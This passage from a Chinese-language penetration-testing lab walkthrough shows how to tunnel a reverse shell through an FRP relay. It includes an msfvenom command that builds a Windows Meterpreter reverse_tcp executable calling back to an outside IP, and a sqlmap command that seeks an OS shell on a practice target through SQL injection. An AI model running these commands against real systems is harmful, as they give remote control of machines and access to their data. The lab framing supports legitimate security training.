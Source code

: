 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143255.png)

  

同时生成一个reverse.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST=202.100.1.3 LPORT=6000 -fexe
> reverse.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143256.png)

上面的LPORT=6000记得要和你frp客户端（也就是紫色的kali）配置文件当中的remote_port要一样喔

然后在当前文件夹下面开启http服务（待会要用到）

![]()

  

OK!!!!至此，中间的FRP服务器已经配置好了（当然，上述的操作你也可以直接在紫色部分的kali当中直接ssh到中间这台服务器上面进行操作，这样子会更好的模拟真实环境当中的VPS效果。我这里为了记录文档就没这么做了）

下面就直接到紫色部分的Kali当中模拟攻击吧！！！（有一点忘记说了，接下来的kali当中你会看到shell的主题经常变，并不是换了一台kali，而是我的~/.zshrc当中主题部分写了”random”）

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143257.png)

  

 **1.首先先连接上 frp**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143258.png)

  

![]()

  

此时你会看到远程的frp_server当中有连接提示

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143259.png)

  

  

 **2.使用 sqlmap直接对Server_5进行os-shell（这是月师傅SQLMAP课程当中的一台靶机）**

语句：  

  * 

    
    
    python sqlmap.py -u "http://www.dm1.com/inj.aspx?id=1" --dbmsmssql --batch --is-dba --os-shell -p id --random-agent

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809143300.png)
